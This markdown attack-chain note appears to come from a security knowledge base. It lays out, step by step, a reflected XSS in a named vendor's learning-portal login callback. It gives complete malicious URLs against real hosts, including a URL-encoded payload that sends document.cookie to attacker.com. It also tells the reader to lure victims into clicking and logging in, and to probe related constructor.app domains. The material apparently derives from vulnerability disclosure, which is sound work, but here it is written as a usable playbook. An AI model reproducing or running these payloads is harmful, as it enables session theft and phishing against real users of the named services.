

---
tags:
  - xss
  - reflected-xss
  - javascript-injection
  - acronis
  - login-callback
  - cookie-exfiltration
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/alert-document-domain]]'
  - '[[commands/alert-document-cookie]]'
  - '[[commands/exfiltrate-cookies-via-image]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Craft-Malicious-URL-with-JS-Payload]]'
  - '[[procedures/Test-Cookie-Display-Payload]]'
  - '[[procedures/Demonstrate-Cookie-Exfiltration]]'
  - '[[procedures/Test-Similar-Vulnerabilities-in-Related-Domains]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  A multi-step attack exploiting a reflected XSS vulnerability in the Acronis
  learning portal's login callback URL to inject and execute JavaScript
  payloads, enabling potential session hijacking and data exfiltration.
skill_level: intermediate
impact_level: high
id: c79a3ea5-cb1a-4f8e-a1f7-5b660f24ebb9
created_at: '2025-12-13T23:55:06.837Z'
updated_at: '2025-12-13T23:55:06.837Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS in Acronis Login Callback for Potential Account Takeover

## Overview

This attack chain demonstrates a reflected Cross-Site Scripting (XSS) vulnerability in the Acronis learning portal's login callback URL, specifically the redirectUrl parameter. By injecting malicious JavaScript payloads into the URL, an attacker can execute arbitrary code in the victim's browser upon login and redirection. The chain covers payload crafting, testing for cookie access, exfiltration attempts, and checking related domains. Although the main session cookie is protected by HttpOnly, the vulnerability enables phishing, defacement, or account takeover via stolen non-HttpOnly data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome Developer Tools for testing)
- URL encoder/decoder (built-in browser tools)

### Target Environment

- Web platform
- Access to Acronis learning portal login endpoint
- No specific ports required; operates over HTTPS

### Initial Access Requirements

- Ability to craft and share malicious URLs (e.g., via phishing emails)
- Victim must interact by logging in
- No prior credentials needed for discovery

## Detailed Attack Procedures

### Step 1: Craft Malicious URL with JS Payload
procedure: [[procedures/Craft-Malicious-URL-with-JS-Payload]]

**Objective**: Inject a basic JavaScript payload into the redirectUrl parameter to execute on redirection after login.

**Instructions**: Construct the login URL with the payload in the redirectUrl. Use [[commands/alert-document-domain]] to verify execution:

```javascript
javascript:alert(document.domain)
```

Append it to the endpoint: `https://portal.acronis.com/portal/login-callback?redirectUrl=javascript:alert(document.domain)`. Lure a victim to click and log in.

**Expected Output**: Alert popup displaying the domain upon redirection.

**Success Indicators**:
- JavaScript executes in victim's browser
- Domain alert confirms vulnerability

### Step 2: Test Cookie Display Payload
procedure: [[procedures/Test-Cookie-Display-Payload]]

**Objective**: Attempt to access and display user cookies to assess data exposure.

**Instructions**: Modify the URL with [[commands/alert-document-cookie]]:

```javascript
javascript:alert(document.cookie)
```

Full URL: `https://portal.acronis.com/portal/login-callback?redirectUrl=javascript:alert(document.cookie)`. Trigger login and observe.

**Expected Output**: Alert showing accessible cookies (HttpOnly ones inaccessible).

**Success Indicators**:
- Cookie values displayed if not HttpOnly
- Confirms potential for non-sensitive data theft

### Step 3: Demonstrate Cookie Exfiltration
procedure: [[procedures/Demonstrate-Cookie-Exfiltration]]

**Objective**: Exfiltrate cookies to an attacker-controlled server for potential account takeover.

**Instructions**: Use an encoded version of [[commands/exfiltrate-cookies-via-image]] in the redirectUrl:

```javascript
javascript:var%20img%20%3D%20new%20Image()%3B%20img.src%20%3D%20'https%3A%2F%2Fattacker.com%2Fsteal-cookie%3Fcookie%3D'%20%2B%20document.cookie%3B
```

Set up a listener on attacker.com and include in URL: `https://portal.acronis.com/portal/login-callback?redirectUrl=javascript:var%20img%20%3D%20new%20Image()%3B%20img.src%20%3D%20'https%3A%2F%2Fattacker.com%2Fsteal-cookie%3Fcookie%3D'%20%2B%20document.cookie%3B`. Victim login triggers request.

**Expected Output**: HTTP request to attacker server with cookie data in query string.

**Success Indicators**:
- Incoming request logged on attacker server
- Cookie data captured (limited by HttpOnly)

### Step 4: Test Similar Vulnerabilities in Related Domains
procedure: [[procedures/Test-Similar-Vulnerabilities-in-Related-Domains]]

**Objective**: Expand the attack surface by checking affiliated portals for the same flaw.

**Instructions**: Reuse [[commands/alert-document-domain]] on other endpoints, e.g., `https://web.constructor.app/portal/login-callback?redirectUrl=javascript:alert(document.domain)` and `https://bloomberg401k.constructor.app/portal/login-callback?redirectUrl=javascript:alert(document.domain)`. Test login flow.

**Expected Output**: Alerts confirming XSS in additional domains.

**Success Indicators**:
- Payload execution in related portals
- Broader vulnerability confirmation

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of JavaScript via redirect URL
2. Demonstration of cookie access and exfiltration potential
3. Identification of similar issues in constructor.app domains
4. Highlighted risks of phishing and account takeover despite HttpOnly mitigations

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01*
